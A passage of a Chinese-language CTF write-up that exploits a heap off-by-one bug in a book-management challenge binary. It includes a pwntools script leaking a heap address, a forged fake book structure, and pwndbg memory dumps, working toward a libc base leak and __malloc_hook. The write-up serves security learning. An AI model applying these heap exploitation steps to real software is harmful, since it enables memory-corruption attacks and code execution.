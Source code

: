 ```python
 44 p.sendlineafter("name: ","a"*32)
 45 pause()#1
 46 create(48,"HHHHHHH",200,(""))  #1
 47 pause()#2
 48 show()
 49 
 50 p.recvuntil("a"*32)
 51 book1=u64(p.recv(6)+'\x00'*2)
 52 log.success("book1 -> {:#x}".format(book1))
```

这样我们就能获得我们所欲需要的第一本书的地址了，

然后我们的想法是，对第一本书进行edit，我们的edit只能编写我们的书的description的地址以后的内容，而且又长度限制，所以我们没有办法overflow到下一本书，这里我们可以继续利用one-byte-off，把name重新写进去，把我们第一本书的最后的字节变为\x00

即把0x5567bf82e130变为0x5567bf82e100，这样，我们就能伪造处一个book

```
0x5567be53b050:	0x3131313131313131	0x3131313131313131
0x5567be53b060:	0x00005567bf82e130	0x0000000000000000
```

变为

```
pwndbg> x/100xg 0x5567be53b000
0x5567be53b000:	0x0000000000000000	0x00005567be53b008
0x5567be53b010:	0x00005567be53b060	0x00005567be53b040
0x5567be53b020:	0x0000000100000000	0x0000000000000000
0x5567be53b030:	0x0000000000000000	0x0000000000000000
0x5567be53b040:	0x3131313131313131	0x3131313131313131
0x5567be53b050:	0x3131313131313131	0x3131313131313131
0x5567be53b060:	0x00005567bf82e100	0x0000000000000000

```

此时我们就可以通过edit1，操作0x00005567bf82e100的数据块了，但是我们的目的不是这个，我们现在edit的book1是0x00005567bf82e100+0x18的数据块里即discription的内容，我们需要虚造一个地址，使discription指向他，然后进行修改，本来我想着可以直接指向libc里的表即__malloc_hook但是事实的情况是我们并不知道libc的基址，所以我们要先算机制。我们曾经记得，如果申请的malloc很大，我们就会指向libc里的块。ok，我们把第二本书的discription的地址指到libc里吧，具体的create： create(16,"AAAAAA",0x21000,"BBBBB")

我们造了个这个玩意。

这个玩意的内容是啥呢?查看一下

```
pwndbg> x/100xg 0x5567be53b000
0x5567be53b000:	0x0000000000000000	0x00005567be53b008
0x5567be53b010:	0x00005567be53b060	0x00005567be53b040
0x5567be53b020:	0x0000000200000000	0x0000000000000000
0x5567be53b030:	0x0000000000000000	0x0000000000000000
0x5567be53b040:	0x3131313131313131	0x3131313131313131
0x5567be53b050:	0x3131313131313131	0x3131313131313131
0x5567be53b060:	0x00005567bf82e100	0x00005567bf82e180 -> 第二本书
```
